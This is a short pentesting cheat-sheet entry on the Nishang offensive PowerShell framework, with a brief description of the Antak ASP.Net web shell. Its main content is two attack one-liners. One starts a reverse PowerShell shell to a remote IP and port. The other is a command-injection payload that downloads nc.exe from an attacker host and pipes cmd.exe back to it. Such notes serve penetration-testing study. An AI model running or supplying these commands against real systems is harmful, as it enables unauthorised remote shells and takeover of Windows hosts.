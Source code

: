 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
  - Exploitation
  - RemoteShells
---
```

Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

# Remote Shells

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```

```
cmd=dir|powershell -c "iwr -uri http://192.168.49.57:8000/nc.exe -outfile %temp%\\n.exe"; %temp%\\nc.exe -e cmd.exe 192.168.49.57 80
```



## Antak Web Shell

Antak is a web shell built-in ASP.Net. Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server. The UI is even themed like PowerShell. It's time to dive in and experiment with Antak.








